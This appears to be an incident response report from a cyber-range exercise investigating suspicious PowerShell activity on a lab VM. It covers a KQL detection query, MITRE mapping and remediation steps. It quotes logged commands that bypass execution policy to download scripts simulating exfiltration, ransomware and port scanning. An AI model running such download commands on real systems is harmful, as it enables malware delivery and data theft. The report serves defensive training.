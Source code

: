 # 🛡️ Incident Response Report: PowerShell Suspicious Web Request (NIST 800-161 Compliant)

---

## 1. Detection

**Incident Trigger:**  
An alert was raised for suspicious PowerShell web requests involving the account:

**Account:** `<king>`

**Affected Host Information:**
- **HostName:** `king-vm`
- **Operating System:** Windows
- **OS Version:** Windows
- **Last Internal IP Address:** `10.0.0.84`
- **Last External IP Address:** `68.154.42.194`

**Observed Commands Executed:**  
The following PowerShell commands were executed using the `-ExecutionPolicy Bypass` parameter:

```powershell
cmd.exe /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/eicar.ps1 -OutFile C:\programdata\eicar.ps1
cmd.exe /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1 -OutFile C:\programdata\exfiltratedata.ps1
cmd.exe /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1 -OutFile C:\programdata\pwncrypt.ps1
cmd.exe /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/portscan.ps1 -OutFile C:\programdata\portscan.ps1
```

🧮 Detection Query:
To investigate the execution of suspicious PowerShell scripts, the following KQL query was used:

```kql
let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "portscan.ps1", "pwncrypt.ps1"]);
DeviceProcessEvents
| where DeviceName == "king-vm"
| where ProcessCommandLine contains "-File" and InitiatingProcessCommandLine has_any (ScriptNames)
| order by TimeGenerated
| project TimeGenerated, AccountName, DeviceName, FileName, InitiatingProcessCommandLine
| summarize Count = count() by AccountName, DeviceName, FileName, InitiatingProcessCommandLine
```

### 📑 NIST 800-161 Compliance:

- ID.AM-1: Inventory and management of user accounts and scripts.

- PR.DS-5: Protection of system integrity by detecting unauthorized code execution.

## 2. Analysis

#### Code Review: Using Browserling, the URLs were accessed, and the scripts were analyzed. Each script’s function was verified and categorized.

#### One-Line Descriptions of Each Script:

- **[portscan.ps1](https://github.com/K-ING-TECH/Incident-Response_Invoke-WebRequest/blob/main/portscan.ps1)** - Scans a specified IP range for open common ports and logs the results for network reconnaissance.

- **[eicar.ps1](https://github.com/K-ING-TECH/Incident-Response_Invoke-WebRequest/blob/main/eicar.ps1)** - Creates an EICAR test file to simulate a benign virus detection for testing antivirus software responses.

- **[exfiltratedata.ps1](https://github.com/K-ING-TECH/Incident-Response_Invoke-WebRequest/blob/main/exfiltratedata.ps1)** - Generates fake employee data, compresses it, and uploads it to Azure Blob Storage to simulate data exfiltration.

- **[pwncrypt.ps1](https://github.com/K-ING-TECH/Incident-Response_Invoke-WebRequest/blob/main/pwncrypt.ps1)** - Encrypts files containing sensitive data and leaves a ransom note, simulating ransomware behavior.

## MITRE ATT&CK TTP Assessment:
- **T1046 - Network Service Scanning**: Executed through portscan.ps1.

- **T1059.001 - Command and Scripting Interpreter**: PowerShell - Usage of PowerShell for execution.

- **T1567.002 - Exfiltration Over Alternative Protocol**: Data exfiltration simulated by uploading to Azure Blob Storage.

- **T1486 - Data Encrypted for Impact**: Encryption of local files via pwncrypt.ps1.

## 3. Containment, Eradication, and Recovery
🚫 Containment Actions:

- Isolated the device from the network using Microsoft Defender for Endpoint (MDE).

- Executed a comprehensive antivirus (AV) scan to detect and mitigate any further malicious code.

### Eradication Steps:

- Reimaged the device and redeployed it using the last known good backup.

### Recovery Measures:

- Enrolled the affected user in an updated security awareness training program using KnowBe4.

- Developed and implemented a new policy to restrict PowerShell usage for non-administrative users.

## 📑 NIST 800-161 Compliance:

- PR.PT-5: Restrict execution of scripts and enforce least privilege for administrative actions.

- RS.MI-3: Eradication of malware and unauthorized scripts.

- RC.IM-1: Implementation of improved policies to mitigate future incidents.

## 4. Lessons Learned & Security Improvements
- Enhance monitoring rules for PowerShell execution with bypass flags.

- Implement stricter conditional access and endpoint protection policies.

- Regularly audit administrative privileges and script execution logs.


